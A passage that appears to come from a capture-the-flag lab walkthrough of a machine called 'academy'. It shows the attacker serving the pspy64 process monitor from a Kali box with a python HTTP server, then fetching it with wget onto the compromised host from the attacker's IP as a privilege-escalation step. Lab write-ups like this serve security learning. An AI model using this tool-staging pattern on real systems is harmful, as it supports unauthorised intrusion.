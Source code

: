 ![Alt](../../Images/usingpspy64bittocheckprocess.png)

Copy the pspy to the /transfer. Remember you have listerner `python -m http.server 80`

```
┌──(root㉿kali)-[~]
└─# cp Downloads/pspy64 /transfer  
┌──(root㉿kali)-[~]
└─# ls /transfer                                  
linpeas.sh  pspy64


```

```
grimmie@academy:/tmp$ wget http://192.168.64.4/pspy64
--2024-07-06 02:13:38--  http://192.168.64.4/pspy64
Connecting to 192.168.64.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[================>]   2.96M  --.-KB/s    in 0.04s   

2024-07-06 02:13:39 (83.1 MB/s) - ‘pspy64’ saved [3104768/3104768]

```
